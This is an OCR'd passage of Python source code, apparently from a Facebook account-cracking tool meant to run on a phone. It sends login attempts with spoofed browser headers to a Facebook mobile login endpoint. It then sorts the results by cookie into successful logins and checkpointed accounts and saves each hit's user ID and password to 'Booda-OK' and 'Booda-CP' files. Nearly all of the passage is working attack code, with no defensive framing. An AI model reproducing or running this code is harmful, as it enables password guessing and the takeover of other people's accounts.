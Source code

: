 			'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',

			'accept-encoding': 'gzip, deflate, br',

			'accept-language': 'en-US,en;q=0.9',

			'cache-control': 'max-age=0',

			'sec-ch-ua': '"(Not(A:Brand";v="99", "Chromium";v="109", "Google Chrome";v="109"', 

			'sec-ch-ua-mobile': '?0',

			'sec-ch-ua-platform': '"Windows"',

			"sec-fetch-dest": "document",

			'sec-fetch-mode': 'navigate',

			'sec-fetch-site': 'none',

			'upgrade-insecure-requests': '1',

			"sec-fetch-user": "?1",

            'user-agent': pro}

            lo = session.post('https://p.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header_freefb).text

            log_cookies=session.cookies.get_dict().keys()

            #print(iid+'|'+pws+'|'+str(log_cookies))

            if 'c_user' in log_cookies:

                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                cid = coki[151:166]

                print('\033[1;32m[Booda-OK] '+uid+' • '+ps+'\033[0;97m')

                open('/sdcard/Booda-OK.txt', 'a').write(cid+' • '+ps+'\n')

                oks.append(cid)

                break

            elif 'checkpoint' in log_cookies:

                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                cid = coki[141:156]

                print('\033[1;31m[Booda-CP] '+uid+' • '+ps+'\033[0;97m')

                open('/sdcard/Booda-CP.txt', 'a').write(cid+' • '+ps+'\n')

                cps.append(cid)

                break

            else:

                continue

